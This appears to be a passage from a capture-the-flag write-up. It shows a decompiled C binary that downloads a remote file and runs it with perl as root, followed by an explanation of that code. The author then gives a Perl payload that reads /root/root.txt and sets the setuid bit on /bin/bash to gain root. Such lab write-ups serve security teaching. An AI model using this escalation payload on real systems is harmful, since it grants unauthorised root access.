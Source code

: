 ```c++
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(char **)(param_2 + 0x10));
    param0 = (char *)malloc((long)iVar2 + 1);
    snprintf(param0,(long)iVar2 + 1,"%s",*(char **)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",param0);
    param0_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(param0_00,(long)iVar2 + 1,"perl ./%s",param0);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(param0_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

This is a C program that downloads a file using `libcurl`, saves it to disk, executes a Perl script, and then deletes the downloaded file.

Here is a breakdown of the program's functionality:

1. The program checks if it has exactly 3 command-line arguments. If it doesn't, it prints "Exiting..." and exits.
2. The program checks if the user running it has root privileges. If not, it prints "Exiting..." and exits.
3. The program checks if the second command-line argument is equal to the string "`lDnxUysaQn`". If not, it prints "Exiting..." and exits.
4. If the program has passed all three checks, it prints "Running..." and proceeds to download a file using `libcurl`.
5. The program saves the downloaded file to disk with the same name as the second command-line argument.
6. The program then initializes a Perl interpreter and executes a Perl script with the same name as the downloaded file.
7. After executing the Perl script, the program deletes the downloaded file and exits.

Note that this program could potentially be used for malicious purposes, as it executes a Perl script with root privileges. Therefore, it should be used with caution and only in trusted environments.

So, what this binary is doing is, Downloading a file from remote host which user specify and then running it with perl as root.

We can exploit it by crating a reverse sell in perl and save it in a file, host it using http server, use that binary to run that perl script as root.

```perl
#!/usr/bin/perl

sub run_commands {
    my @commands = @_;
    foreach my $command (@commands) {
        system($command);
    }
}

# Example usage
run_commands("cat /root/root.txt", "chmod +s /bin/bash");
```
